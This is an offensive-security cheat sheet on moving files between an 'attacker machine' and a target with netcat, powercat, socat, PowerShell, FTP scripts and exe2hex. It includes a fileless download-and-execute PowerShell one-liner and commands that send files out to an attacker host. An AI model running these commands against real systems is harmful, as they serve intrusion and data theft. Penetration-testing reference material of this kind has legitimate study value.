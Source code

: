 ```yaml
---
description: source -> destination
---
```


# Transfering files

### Netcat

```text
# source
nc -nv <ip> <port> < <file>

# destination
nc -lvnp <port> > <file>
```

### Powercat

```text
# source
powercat -c <ip> -p <port> -i C:\<src_path>

# destination
powercat -l -p <port> -of C:\<dst_path>
```

### Socat

```text
# source
socat TCP4-LISTEN:<port>,fork file:<src_path>

# destination
socat TCP4:<ip>:<port> file:<dst_path>,create
```

### HTTP server + Powershell

```text
# create server on attacker machine with one of these
python3 -m http.server <port>
python2 -m SimpleHTTPServer <port>
php -S 0.0.0.0:<port>
ruby -run -e httpd . -p <port>
busybox -f -p <port>

# download with powershell oneliner
## download file
(New-Object System.Net.WebClient).DownloadString("<source>","<destination>")

## execute powershell script without touching disk
iex (New-Object System.Net.WebClient).DownloadString("<source>")

## upload file
iex (New-Object System.Net.WebClient).UploadFile("<destination>", "<file>")
```

### pure-ftp

```text
# ftp server needs to be configured before

echo open <attacker> 21 > ftp.txt
echo user <user> >> ftp.txt
echo <pass> >> ftp.txt
echo bin >> ftp.txt
echo get <file> >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

### exe2hex

```text
upc -9 <file>
exe2hex -x <file> -p <output>.cmd
# copy paste into target terminal
```

### If all fails, base64

